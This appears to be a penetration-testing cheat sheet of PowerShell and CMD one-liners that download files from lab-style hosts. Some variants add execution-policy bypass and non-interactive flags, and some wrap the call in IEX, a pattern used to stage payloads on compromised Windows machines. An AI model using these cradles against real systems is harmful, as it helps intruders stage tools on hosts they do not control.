 ....................................................USING POWERSHELL -....................................................
------------------------------------------------------------------------------------------------------------------


#### 

**Web Content Download**
    
    $webClient.DownloadFile('http://10.10.10.10:80/demo.txt','c:\temp\demo.txt')

**Web Content Download**
    
    powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/demo.txt','c:\temp\demo.txt')

**Web Content Download**
    
    powershell.exe IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10:80/demo.txt','C:\temp\demo.txt')

**Web Content Download**
    
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10/demo.txt','C:\temp\demo.txt')"

**Web Content Download**
    
    powershell.exe Invoke-RestMethod -Uri "http://10.10.10.10/demo.txt" -OutFile "c:\temp\demo.txt"

**Web Content Download**
    
    powershell.exe Invoke-webRequest -Uri "http://10.10.10.10/demo.txt" -OutFile "c:\temp\demo.txt"

**Powershell Wget**
    
    powershell.exe -c wget "http://10.10.14.17/demo.txt" -outfile "c:\temp\demo.txt"

**Powershell Curl**
    
    powershell.exe -c "curl.exe http://10.10.10.10:80/demo.txt c:\temp\demo.txt"

**Powershell IEX**

    echo IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10:80/demo.txt','C:\temp\demo.txt') | powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile
   
**Powershell Direct URI**
    
    iwr -uri http://192.168.45.240/demo.txt -Outfile demo.txt

**Powershell BitsTransfer**

    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://10.10.10.10/demo.txt' -Destination 'c:\temp\demo.txt'"

**Using file**
    
    echo '$storageDir = $pwd' > wget.ps1
    echo '$webclient = New-Object System.Net.WebClient' >> wget.ps1
    echo '$url = "http://10.10.10.10/demo.txt"' >> wget.ps1
    echo '$file = "c:\temp\demo.txt"' >> wget.ps1
    echo '$webclient.DownloadFile($url, $file)' >> wget.ps1

    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
------------------------------------------------------------------------------------------------------------------

USING CMD - 
------------------------------------------------------------------------------------------------------------------

**Web Content Download**
    
    powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/demo.txt','c:\temp\demo.txt')

**Web Content Download**

    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://10.10.10.10/demo.txt' -Destination 'C:\temp\demo.txt'"

**Web Content Download**
    
    powershell.exe -c "$webClient = New-Object System.Net.WebClient; $webClient.DownloadFile('http://10.10.10.10:80/demo.txt','c:\temp\demo.txt')"

**Web Content Download**
    
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10/demo.txt','C:\temp\demo.txt')"


